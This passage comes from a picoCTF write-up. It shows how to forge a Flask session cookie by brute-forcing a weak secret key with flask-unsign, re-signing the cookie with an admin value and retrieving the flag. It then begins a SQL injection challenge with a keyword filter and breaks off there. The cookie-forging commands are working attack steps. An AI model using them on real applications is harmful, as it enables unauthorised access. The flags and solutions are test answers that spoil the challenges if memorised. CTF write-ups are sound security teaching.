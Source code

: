 Look at `server.py`:

<pre>
if check == "admin":
   resp = make_response(render_template("flag.html", value=flag_value, title=title))
   return resp
</pre>

So if we can change `"very_auth"` to `"admin"`, we get the flag.  
Now the twist:

<pre>
cookie_names = ["snickerdoodle", "chocolate chip", ..., "peanut butter", ...]
app.secret_key = random.choice(cookie_names)
</pre>

Only ~30 possible secret keys? Let’s brute-force it.

Create `keys.txt` with all the cookie names and run:

<pre>
flask-unsign -u -c eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aId-8Q.kzEIKAMoI1T3pO7_gwAYnjlhQCA -w keys.txt
</pre>

![](https://miro.medium.com/v2/resize:fit:720/format:webp/1*kfHRfkS0sCmNBx00eiwlUA.png)

Got the secret key: `peanut butter`

Sign a new cookie:

<pre>
flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret 'peanut butter'
</pre>

Got: eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aIeDAA.-NOeyfruKE82lHmhWAdwopvP8qw

Use that cookie → refresh the site → boom.

> picoCTF{pwn\_4ll\_th3\_cook1E5\_22fe0842}

**25\. Web Gauntlet 2**
----

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*90vhgnjp-RnGtxW4haq1eg.png)

We’re given a login page.

Looks like classic SQLi, but there’s a twist — the challenge filters some common keywords.

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*2mC1eKi4LlULdoRlh77DuA.png)

Opening `filter.php` shows the blacklist:

![](https://miro.medium.com/v2/resize:fit:640/format:webp/1*8k-JaOBOnqdzGvJE5poTag.png)

So we **can’t** do basic things like:
